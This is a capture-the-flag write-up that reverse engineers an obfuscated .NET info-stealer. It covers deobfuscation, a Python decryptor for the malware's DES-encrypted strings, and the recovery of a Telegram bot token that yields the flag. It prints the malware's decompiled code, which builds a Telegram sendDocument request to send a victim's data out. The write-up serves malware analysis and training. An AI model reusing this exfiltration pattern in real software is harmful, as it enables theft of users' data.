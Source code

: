 ```yaml
---
layout: post
title: Stealer
categories:
- WRITEUPS
- BLACKHAT MEA 2024
- REVERSE
tags:
- malware
- reverse
- stealer
date: 2014-09-02 00:00 +0000
---
```

# stealer
### Overview

The task involved reverse engineering a `.Net 32-bit` executable named `snake.mal`. The primary objective was to analyze the executable, identify its functionality, and decode any hidden or encrypted data within the file. The reversing process was conducted using dnspy for decompiling the executable, and `de4dot` for deobfuscation and a custom python script to decrypt strings used by the malware.

### Initial Analysis

Upon opening `snake.mal.exe` in a dnSpy, it was evident that the executable was heavily obfuscated. The functions and classes were renamed to nonsensical names, making manual analysis difficult.

![image](https://github.com/user-attachments/assets/c7aade9d-9670-4ff0-97c2-2c966c68a8a4)


To proceed with the analysis, `de4dot` was employed to clean the obfuscated code. Running the tool produced a cleaned version of the executable, where the obfuscated symbols were renamed to more readable forms, significantly easing the analysis process.

```jsx
C:\Users\mahmoud\Desktop> C:\Tools\de4dot\de4dot.exe snake.mal

de4dot v3.1.41592.3405 Copyright (C) 2011-2015 de4dot@gmail.com
Latest version and source code: https://github.com/0xd4d/de4dot

Detected Unknown Obfuscator (C:\Users\mahmoud\Desktop\snake\snake.mal)
Cleaning C:\Users\mahmoud\Desktop\snake\snake.mal
Renaming all obfuscated symbols
Saving C:\Users\mahmoud\Desktop\snake\snake-cleaned.mal
```

![image](https://github.com/user-attachments/assets/34de0158-f1ff-491b-8a49-4417c771aee0)


With the code now more readable, we can delve into its functionality.

Found some functions that provide clear evidence that the malware is stealing data.

![image](https://github.com/user-attachments/assets/f641cca3-ed1a-44ba-8e0d-c40b52f98074)


Other numerous functions have been identified that appear to interact with Telegram.

![image](https://github.com/user-attachments/assets/893047fe-11d4-4aca-885b-fd511b1540e3)


If we examine the methods from the previous screenshot, several of them call a function named `smethod_16`, each passing different encrypted strings to it.



The `smethod_16` function is a decryption method, which utilized DES encryption with a key derived from an MD5 hash. 

![image](https://github.com/user-attachments/assets/d486e355-593a-49b9-9429-542bed21440c)

### Decrypting Strings

Wrote Python script to replicate this decryption process:

```jsx
import base64
from Crypto.Cipher import DES
from Crypto.Hash import MD5

def smethod_16(encrypted_string, key):
    try:
        des = DES.new(MD5.new(key.encode()).digest()[:8], DES.MODE_ECB)
        decrypted_bytes = des.decrypt(base64.b64decode(encrypted_string))
        decrypted_string = decrypted_bytes.decode()
        return decrypted_string
    except Exception as e:
        print(f"Error decrypting string: {e}")
        return None
    
```
### Results of Decryption

By applying the Python function to the encrypted strings, the following results were obtained:

```jsx
print(smethod_16("zMaRPCbE0Gb4k/zB6ZNS3r1L34TENqMZD9RW6hkhoOE=", "nnrCOnrJyiwsACMwnkEJB"))
# result "https://api.telegram.org/bot"

print(smethod_16("FphMdFa3hOQv6jbOo+Di/krf6/KeCXcASv1A0PTZtTaqOQqu46FvhqM0pdqb8g0/", "BsrOkyiChvpfhAkipZAxnnChkMGkLnAiZhGMyrnJfULiDGkfTkrTELinhfkLkJrkDExMvkEUCxUkUGr"))
# result "7267561120:QkhGbGFnWXt0M2xlZ3I0bV9nMGVzX3chbGR9"
```
These strings were used to construct a Telegram API request:

```jsx
			ServicePointManager.Expect100Continue = false;
			ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;
			string text2 = string.Concat(new string[]
			{
				https://api.telegram.org/bot,
				7267561120:QkhGbGFnWXt0M2xlZ3I0bV9nMGVzX3chbGR9,
				/sendDocument?chat_id=,
				5481237002,
				"&caption=",
				string.Concat(new string[]
				{
					" Pc Name: ",
					Environment.UserName,
					" | Snake Tracker\r\n\r\nPW | ",
					Environment.UserName,
					" | Snake\r\n\r\n\r\n"
				})
			});
```

Given our understanding of the Telegram API, these strings are parameters used to communicate with a Telegram bot. This suggests that the malware is designed to steal data and then use the bot to upload that data.

### Getting The Flag

To obtain the flag, all we needed to do was decode the bot token, which revealed the flag.

```jsx
$ echo QkhGbGFnWXt0M2xlZ3I0bV9nMGVzX3chbGR9 | base64 -d           
BHFlagY{t3legr4m_g0es_w!ld} 
```
